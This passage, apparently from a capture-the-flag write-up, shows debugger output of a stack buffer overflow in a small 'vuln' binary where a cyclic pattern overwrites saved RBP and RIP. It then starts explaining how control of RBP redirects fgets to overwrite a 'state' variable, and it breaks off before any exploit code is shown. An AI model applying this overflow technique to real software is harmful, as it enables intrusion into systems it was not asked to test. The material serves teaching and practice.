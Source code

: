 ```sh
   0x4012d7 <vuln+34>    lea    rax, [rbp - 0x20]                 RAX => 0x7fffffffdbc0 ◂— 2
   0x4012db <vuln+38>    mov    esi, 0x30                         ESI => 0x30
   0x4012e0 <vuln+43>    mov    rdi, rax                          RDI => 0x7fffffffdbc0 ◂— 2
   0x4012e3 <vuln+46>    call   fgets@plt                   <fgets@plt>

 ► 0x4012e8 <vuln+51>    nop
   0x4012e9 <vuln+52>    leave
   0x4012ea <vuln+53>    ret

   0x4012eb <main>       endbr64
   0x4012ef <main+4>     push   rbp
   0x4012f0 <main+5>     mov    rbp, rsp
────────────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────────────
00:0000│ rax rsp 0x7fffffffdbc0 ◂— 'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaa'
01:0008│-018     0x7fffffffdbc8 ◂— 'baaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaa'
02:0010│-010     0x7fffffffdbd0 ◂— 'caaaaaaadaaaaaaaeaaaaaaafaaaaaa'
03:0018│-008     0x7fffffffdbd8 ◂— 'daaaaaaaeaaaaaaafaaaaaa'
04:0020│ rbp     0x7fffffffdbe0 ◂— 'eaaaaaaafaaaaaa'
05:0028│+008     0x7fffffffdbe8 ◂— 0x61616161616166 /* 'faaaaaa' */
06:0030│+010     0x7fffffffdbf0 ◂— 1
07:0038│+018     0x7fffffffdbf8 —▸ 0x7ffff7dadd90 (__libc_start_call_main+128) ◂— mov edi, eax
──────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────────────────
 ► 0         0x4012e8 vuln+51
   1 0x61616161616166 None
   2              0x1 None
   3   0x7ffff7dadd90 __libc_start_call_main+128
   4   0x7ffff7dade40 __libc_start_main+128
   5         0x401115 _start+37
```
We can see we have control over both `saved RBP` and ` saved RIP`

## Exploit Development

Our objective is to modify the `state` variable to `0xf1eeee2d`, and we have control over both the `saved RBP` and `saved RIP`. Before diving into the exploit, let’s analyze how `fgets()` operates in this context.

```sh
   0x4012d0 <vuln+27>    mov    rdx, qword ptr [rip + 0x2d59]     RDX, [stdin@GLIBC_2.2.5] => 0x7ffff7f9eaa0 (_IO_2_1_stdin_) ◂— 0xfbad208b
   0x4012d7 <vuln+34>    lea    rax, [rbp - 0x20]                 RAX => 0x7fffffffdbc0 ◂— 2
   0x4012db <vuln+38>    mov    esi, 0x30                         ESI => 0x30
   0x4012e0 <vuln+43>    mov    rdi, rax                          RDI => 0x7fffffffdbc0 ◂— 2
   0x4012e3 <vuln+46>    call   fgets@plt                   <fgets@plt>
```

Here, `lea rax, [rbp - 0x20]` loads the buffer’s address into `RAX`, which is then passed as `RDI` to `fgets()`. With control over `saved RBP` and a `buffer overflow`, we can manipulate where the program writes our input.
